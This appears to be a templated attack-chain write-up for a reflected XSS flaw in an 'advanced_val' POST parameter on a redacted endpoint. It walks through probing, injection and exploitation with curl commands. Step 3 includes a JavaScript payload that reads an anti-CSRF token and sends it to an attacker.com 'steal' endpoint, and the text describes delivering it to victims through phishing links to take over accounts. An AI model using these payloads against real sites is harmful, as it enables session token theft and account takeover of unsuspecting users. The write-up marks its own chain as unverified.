

# Reflected XSS in Advanced Val Parameter Leading to CSRF Token Theft and Account Takeover

Multi-stage attack chain demonstrating exploitation of a reflected Cross-Site Scripting (XSS) vulnerability in the unauthenticated POST endpoint at `/██████████_flight/images` via the `advanced_val` parameter. The attack allows injection of malicious JavaScript that executes in the victim's browser, enabling theft of anti-CSRF tokens from authenticated sessions and facilitating account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for testing
- curl for sending POST requests

### Target Environment

- Web application with the endpoint `https://target.com/██████████_flight/images`
- Unauthenticated access to the POST endpoint
- Victim must visit a malicious link or form submission

### Initial Access Requirements

- No credentials required for injection
- Network access to the target web server
- Ability to craft and deliver phishing links to victims

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-XSS-Endpoint]]

**Objective**: Locate and confirm the unauthenticated POST endpoint vulnerable to reflected XSS in the `advanced_val` parameter.

**Instructions**: Examine network requests to the target endpoint using browser dev tools or a proxy. Send a test POST request with a benign payload in `advanced_val` to observe reflection.

Use [[commands/curl-test-post-parameter]] to probe:

```bash
curl -X POST https://target.com/██████████_flight/images -d "advanced_val=test" -H "Content-Type: application/x-www-form-urlencoded"
```

Inspect the response for unsanitized output of `advanced_val`.

**Expected Output**: Response body echoes back the `advanced_val` value without escaping.

**Success Indicators**:
- Parameter value reflected in HTML/JS context
- No sanitization observed (e.g., no HTML entities)

### Step 2: Inject XSS Payload
procedure: [[procedures/Inject-Reflected-XSS-Payload]]

**Objective**: Craft and submit a malicious script payload via the `advanced_val` parameter to execute JavaScript in the victim's browser.

**Instructions**: Prepare a reflected XSS payload such as `<script>alert(document.domain)</script>`. Deliver it via a phishing link or malicious form that triggers a POST to the endpoint.

Use [[commands/curl-inject-xss-payload]] to test injection:

```bash
curl -X POST https://target.com/██████████_flight/images -d "advanced_val=<script>alert(document.domain)</script>" -H "Content-Type: application/x-www-form-urlencoded"
```

Host the payload in a link for victims to click, e.g., a form submission URL.

**Expected Output**: Script executes, showing an alert with the domain.

**Success Indicators**:
- JavaScript alert or console log triggers
- Payload reflected and parsed as executable code

### Step 3: Verify Exploitation and Steal Tokens
procedure: [[procedures/Verify-XSS-Exploitation-for-CSRF-Theft]]

**Objective**: Confirm script execution and extend the payload to exfiltrate anti-CSRF tokens from authenticated sessions for account takeover.

**Instructions**: Modify the payload to capture and send CSRF tokens, e.g., `<script>fetch('/csrf-token-endpoint').then(r=>r.text()).then(t=>fetch('https://attacker.com/steal?token='+encodeURIComponent(t)))</script>`. Test in an authenticated context.

Use [[commands/curl-inject-csrf-theft-payload]] to simulate:

```bash
curl -X POST https://target.com/██████████_flight/images -d "advanced_val=<script>fetch('/csrf-token').then(r=>r.text()).then(t=>fetch('https://attacker.com/steal?token='+t))</script>" -H "Content-Type: application/x-www-form-urlencoded" --cookie "session=auth_cookie"
```

Monitor attacker server for received tokens.

**Expected Output**: Token data posted to attacker's endpoint.

**Success Indicators**:
- Alert or network request confirms execution
- CSRF token captured and usable for takeover requests

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS in unauthenticated endpoint
2. Injected executable JavaScript payload via POST parameter
3. Demonstrated token theft leading to potential account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
